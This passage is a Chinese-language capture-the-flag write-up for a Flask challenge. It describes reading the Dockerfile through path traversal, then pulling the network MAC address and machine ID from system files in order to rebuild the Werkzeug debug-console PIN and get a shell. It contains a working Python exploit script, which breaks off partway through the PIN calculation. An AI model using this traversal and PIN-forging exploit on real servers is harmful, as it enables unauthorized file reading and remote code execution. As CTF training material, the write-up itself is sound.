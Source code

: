 透過這樣就能取得 Dockerfile，取得 Dockerfile 後，便可以此類推，觀察 COPY 的檔案路徑，透過 path traversal 拿到其他檔案。

觀察這個 Dockerfile，可以發現以下幾件事。
- 這題使用的 image `python:3.10-alpine`
- 這題的 flask 有開啟 debug mode (此題關鍵)
- flag 的位置

![image](./asset/dockerfile_LFI.png)

接下來，我們的目標是達到 RCE，透過一些搜尋，發現當 flask （或者說有使用 Werkzeug 的 debug 當作依賴） debug mode 開啟時，只要能取得以下資訊，便可將 pin code 反算回來。
- username (可透過 Dockerfile 得知為 `daemon`)
- modname (觀察 app.py 得知為 `flask.app`)
- name of Flask class (`Flask`)
- location of app.py (將該 image 建起來後，可以找到路徑為 `/usr/local/lib/python3.10/site-packages/flask/app.py`)
- node_uuid
- machine_id

剩下的 node_uuid 與 machine_id 我們皆可以透過 LFI 拿到，詳細可參考資源。

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

算出 pin code 後，我們到 `/console` 輸入 pin code，便可成功 get shell，之後便可使用任意 python 了。

exploit:

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
from base64 import b64encode
import hashlib
from itertools import chain

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

url = 'CHALLANGE URL'

def get_file(path):
    path = b64encode(path.encode()).decode()
    r = requests.get(url+f'/img/{path}', verify=False)
    return r.content

node_uuid = str(int(get_file('../../../../../../../sys/class/net/eth0/address').decode().replace(":", ""), 16))
machine_id = get_file('../../../../../../../proc/sys/kernel/random/boot_id').strip()

print(node_uuid)
print(machine_id)
probably_public_bits = [
	'daemon', # username of the user running flask
	'flask.app', # modname of app.py
	'Flask', # name of the Flask class
	'/usr/local/lib/python3.10/site-packages/flask/app.py', # location of app.py (flask module)
]

private_bits = [
	node_uuid,
	machine_id
]

num = None
rv = None

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
```